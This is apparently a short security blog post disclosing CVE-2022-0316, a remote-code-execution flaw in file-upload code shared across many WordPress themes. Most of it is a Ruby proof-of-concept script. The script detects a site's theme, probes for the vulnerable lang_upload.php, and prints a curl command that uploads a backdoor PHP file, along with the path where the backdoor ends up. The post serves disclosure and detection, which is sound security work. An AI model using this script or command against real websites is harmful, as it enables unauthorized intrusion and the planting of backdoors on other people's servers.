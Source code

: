 ```yaml
---
title: Exploit for many Wordpress themes - CVE-2022-0316
description: Exploit poc
date: 2022-02-04
social_image: '/media/images/somuchwin.png'
tags: [CVE-2022-0316, Wordpress, themes]
---
```

## Detection and exploitation of Wordpress theme CVE-2022-0316

This vulnerability involves a piece of code that for unknown reasons, has been found copy pasted in many themes that are otherwise unrelated. I have not been able to reliably catalog them all.

In the case of the Westand theme, this was pulled by Envato market on January 17th following a lack of response from the supplier. This is an extremely basic RCE that is very hard to miss.

The below code will scan for the vulnerable file and content match on any theme.

```ruby
#!/usr/bin/env ruby

require 'httpclient'

# CVE-2022-0316
URL = 'https://www.mywebsite.com/'

clnt = HTTPClient.new
clnt.ssl_config.set_default_paths
site = clnt.get(URL)

raise "Unable to fetch site" unless site.status == 200

theme = /(http.*\/wp-content\/themes\/[^\/]+)/.match site.content

raise "Unable to detect Wordpress theme" unless theme
puts "Theme Path Detected: " + theme[1]

vulnpath = "#{theme[1]}/include/lang_upload.php"
tester = clnt.get(vulnpath)

if tester.status != 200 or ! /Please select Mo file/.match tester.content
  puts "Vulnerable code path not found"
  exit
end

puts "Site is vulnerable. To upload a backdoor, use the following command:"
puts "curl #{vulnpath} -F \"mofile[]=backdoor.php\""
puts "Backdoor will be placed at: #{theme[1]}/languages/backdoor.php"
```

